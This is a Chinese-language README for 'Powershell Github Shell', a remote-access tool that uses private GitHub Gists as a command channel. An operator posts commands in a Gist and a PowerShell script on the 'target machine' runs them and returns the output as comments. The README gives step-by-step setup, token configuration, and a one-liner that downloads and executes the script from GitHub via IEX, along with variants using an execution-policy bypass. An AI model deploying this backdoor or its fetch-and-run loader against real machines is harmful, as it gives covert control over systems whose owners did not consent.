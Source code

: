 ###Powershell Github Shell
	Author:zshell
	Blog:http://www.0x7c.com
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

####使用方法：<br>
##### 1，创建github账户，访问https://github.com/settings/tokens/new  选中 gist   Create gists ，创建访问Gists的token.<br>
##### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：<br>
###### 为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e <br>
	Command:"time /T"
	ReadFile:"c:/windows/temp/1.txt"
	WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
	Powershell:"Get-Process | Out-String"
	Command:"whoami"
其中<br>
###### Command后是想要执行的cmd命令，功能已测试OK<br>
###### ReadFile是上传目标机器上的文件到Github，暂未实现<br>
###### WriteFile下载文件到目标机器，暂未实现<br>
###### Powershell后是可以执行的Powershell指令，暂未实现<br>

##### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名<br>
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1<br>
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位<br>

##### 4, 使powershell在目标机器上执行
##### Powershell执行方法<br>
一句话远程加载(推荐) <br>
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zlocal/Powershell-Github-Shell/master/PGShell.ps1')
```
一句话本地加载<br>
```
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行<br>
```
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
##### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
